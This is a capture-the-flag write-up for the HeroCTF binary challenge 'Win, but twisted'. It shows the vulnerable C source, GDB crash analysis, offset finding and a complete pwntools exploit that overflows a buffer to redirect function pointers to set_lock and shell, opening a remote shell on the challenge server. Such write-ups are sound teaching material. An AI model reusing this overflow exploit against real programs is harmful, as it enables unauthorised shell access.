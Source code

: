 # Win, but twisted

![Screenshot_16](https://user-images.githubusercontent.com/67475596/116267591-d833f880-a77c-11eb-90da-a6fcc7751806.png)

In this challenge we were given a binary and a C file, let's analyze them.
```C
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/types.h>



int UNLOCKED = 0;



void set_lock()

{

    printf("Setting lock !");

    UNLOCKED = 1;

}



void shell()

{

    printf("In shell function ! ");

    if (UNLOCKED == 1)

    {

        printf("Getting shell ! ");

        setreuid(geteuid(), geteuid());

        system("/bin/sh");

    }



    

}



void hello_hero(int hero)

{

    printf("It looks like that's something a Hero would say\n");

}



void look_like()

{

    printf("Please keep being one. :)\n");

}



int main()

{

    int (*look)() = look_like;

    int (*hello)() = hello_hero;

    char buffer[32];



    printf("What would a hero say ?\n>>> ");

    fgets(buffer, 44, stdin);

    hello();

    look();



}
```
```
file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
Security:
```bash
checksec WinButTwisted
[*] '/home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Uhhm it seems crashed.. 
```bash
./WinButTwisted       
What would a hero say ?
>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./WinButTwisted
```
Now let's find the exactly offset for our padding.
Create a cyclic string in python with the Pwntools library.
```bash
>>> cyclic_metasploit(40)
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'
```
Run the binary into GDB 
```gdb
gef➤  r
Starting program: /home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted 
What would a hero say ?
>>> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

Program received signal SIGSEGV, Segmentation fault.
0x31624130 in ?? ()
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x31624130 ("0Ab1"?)
$ebx   : 0x080e9000  →  0x00000000
$ecx   : 0x080ecde9  →  0x00000000
$edx   : 0xfbad0088
$esp   : 0xffffd0bc  →  0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]
$ebp   : 0xffffd0f8  →  0x00000800
$esi   : 0x080e900c  →  0x0806d190  →  <__strcpy_ssse3+0> endbr32 
$edi   : 0x0804823c  →  0x00000000
$eip   : 0x31624130 ("0Ab1"?) 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0bc│+0x0000: 0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]       ← $esp
0xffffd0c0│+0x0004: 0x080e9094  →  0x080ea8c0  →  0x00000000
0xffffd0c4│+0x0008: 0x00000000
0xffffd0c8│+0x000c: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0cc│+0x0010: "a1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d0│+0x0014: "2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d4│+0x0018: "Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d8│+0x001c: "a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x31624130
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "WinButTwisted", stopped 0x31624130 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
Here we can see that our EIP register has been overwritten by the pattern 
```gdb
$eip   : 0x31624130 ("0Ab1"?) 
```

Now we have the ingredients to calculate the offset
```bash
>>> cyclic_metasploit_find(0x31624130)
32
```

Analyzing the C code we can see that we have an input with the fgets(), we can take advantage of this function to jump to the set_lock() function that will set the global variable UNLOCKED to 1, this operation will then allow us to jump to the shell() function, the condition if (UNLOCKED == 1) will then be true and we will have a shell opened by the command system("/bin/sh");
so at this point we can get the flag

Now what we need is the address of the set_lock() function and that of shell()

the payload will be structured as follows:
> Payload = PADDING + set_lock()_address + shell()_address

Address of set_lock()
```bash
objdump -d WinButTwisted | grep set_lock  
08049965 <set_lock>:
```

Address of shell()
```bash
objdump -d WinButTwisted | grep shell   
08049999 <shell>:
```

Now let's write the full exploit
```Python3
from pwn import *

r = remote("pwn.heroctf.fr",9003)
offset = 32 # eip
payload = b'A' * offset + p32(0x8049965) + p32(0x8049999)
r.sendline(payload)
r.interactive()

#flag --> Hero{Tw1sT3D_w1N_FuNcTi0N}
```
Voilà.. here's the flag
Writeup written by FeeeDz from STNKS team
